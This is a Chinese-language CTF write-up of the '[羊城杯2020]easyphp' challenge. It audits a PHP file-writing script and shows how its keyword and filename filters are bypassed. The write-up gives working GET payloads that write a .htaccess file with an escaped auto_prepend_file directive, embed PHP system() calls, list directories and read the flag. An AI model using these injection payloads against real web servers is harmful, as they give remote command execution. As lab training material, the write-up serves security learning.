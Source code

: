 ```yaml
---
title: '[羊城杯2020]easyphp'
date: 2024-07-30 21:28:56
tags: 
     - 题解
     - php特性
categories: 刷题笔记
---
```


### [羊城杯2020]easyphp(.htaccess特性)

我们进行代码审计

```
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

我们可以知道代码会删除除index.php外的所有文件，并且对要传入的content和filename进行了过滤

我们考虑既然只保存了index.php文件，那我们直接覆盖index.php可行吗

![image-20240803220509388](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408032205475.png)

不可行，不能解析index.php的内容

我们可以想到.htaccess文件有个特性，可以在不存在php文件下进行解析执行php代码，通过利用的配置文件中的php_value auto_append_file参数来实现

![img](https://img-blog.csdnimg.cn/direct/b6fae4fa766745ceba1f4191f0838982.png)

当file被过滤时，可以使用转义符\来绕过，和这一题正好对应，但是，文件写入之后末尾会加上**\nHello, world，**其中\n是转行符，也就是Hello,world会被写入下一行，这不符合.htaccess的解析格式

解决方法是，我们直接使用//n将/n的/给转义掉

```
php_value auto_prepend_fil\e .htaccess 
#<?php system('ls');?>\ 
Hello, world
```

由于有换行，我们将换行用%0a代替，将#用%23代替掉

```
?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("ls /")?>\&filename=.htaccess
```

![image-20240803220921487](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408032209548.png)

我们查看flag

```
?content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system("cat /fl\ag")?>\&filename=.htaccess
```

![image-20240803221002325](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408032210479.png)
